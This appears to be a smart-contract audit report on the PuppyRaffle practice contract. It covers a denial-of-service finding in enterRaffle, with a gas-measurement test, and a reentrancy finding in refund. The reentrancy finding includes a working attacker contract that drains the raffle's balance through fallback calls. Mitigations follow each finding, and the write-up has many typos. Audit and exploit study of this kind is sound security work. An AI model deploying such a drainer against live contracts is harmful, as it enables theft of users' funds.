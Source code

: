 ## [M-H] Looping thriugh players aray to check for duplicate in `PuppyRaffle::enterRaffle` is a Potential DOS attack. (Root Cause + Impact)

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `playwrs` array to chck for duplicate. However gas cost accumulates exponentially new checks new players make new checks. Every additional address in the `players` array, is an additional cheeck the loop will have to make.

**Impact:** The gas cost for Raffle rntrsnt will greately increase as more player enters the raffle. this will discourage later users from entering and causing s rush at the start of raffle. 

An attacker might make the `PuppyRaffle::entrants` array to be so big, that no one else enters, saving the win stakes for themselves.

**Proof of Concept:**

if we have two sets of 100 players enter, the cost of gas will be such as:

-  gas cost of the first 100 players: 6252128
- gas cost of the Second 100 players: 18068218

this is more than 3X more expensive for the 2nd 100 players.

<details>
<summary>Proof of code</summary>

Include the following test into `PuppyRaffleTest.t.sol`

```javascript
 function testDosForEnterRaffleFunction () public {

        vm.txGasPrice(1);

        // Let's enter 100 players
        uint256 playerNum = 100;
        address [] memory players = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            players[i] = address(i);
        }
        
        uint256 gasStart = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(players);
        uint256 gasEnd = gasleft();


        uint256 gasUsedFirst = (gasStart - gasEnd)*tx.gasprice;
        console.log("gas cost of the first 100 players:", gasUsedFirst);


        // for the 2nd 100 players

      address [] memory playersTwo = new address[](playerNum);
        for (uint256 i = 0; i < playerNum; i++){
            playersTwo[i] = address(i + playerNum); // address 101, 102, 103...
        }
        
        uint256 gasStartSecond = gasleft();
        puppyRaffle.enterRaffle{value: entranceFee*players.length}(playersTwo);
        uint256 gasEndSecond = gasleft();


        uint256 gasUsedSecond = (gasStartSecond - gasEndSecond)*tx.gasprice;
        console.log("gas cost of the Second 100 players:", gasUsedSecond);

        assert(gasUsedFirst < gasUsedSecond);


    }
```
</details>

**Recommended Mitigation:** Recommendations include;
- Consider allowing duplicates. Here, users can create unique wallets and enter the raffle multiple times.

- Consider using mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.  



## [H-#] `PuppyRaffle::refund` External function call before updating state leaving room for a reentrancy attack.

**Description:** The refund function in the PuppyRaffle contract allows an attacker to exploit a reentrancy vulnerability. The external call to transfer funds (via refund()) is made before updating the contract's state, enabling an attacker to repeatedly call the refund function through a fallback mechanism, thereby draining the contract's balance.

**Impact:** High 

**Proof of Concept:**

If the starting balance of the attacker contract is 0 ETH and the starting contract balance is 4 ETH, after an attack by the ReentrencyAttacker contract, as seen below, the contract balance will be drained to zero:

- Ending attacker contract balance: 5 ETH
- Ending contract balance: 0 ETH

<details>
Please include the code below in the PuppyRaffle.t.sol
<summary>Proof of code</summary>

```javascript
contract ReentrencyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealMoney();
    }

    receive() external payable {
        _stealMoney();
    }
}
```
</details>


**Recommended Mitigation:**

- Use Reentrancy Guard: Consider implementing the ReentrancyGuard pattern to prevent multiple calls to the same function during the execution process.

- Checks-Effects-Interactions Pattern: Always follow the best practice of the checks-effects-interactions pattern, which involves checking conditions, updating state, and interacting with external contracts only after the state has been updated.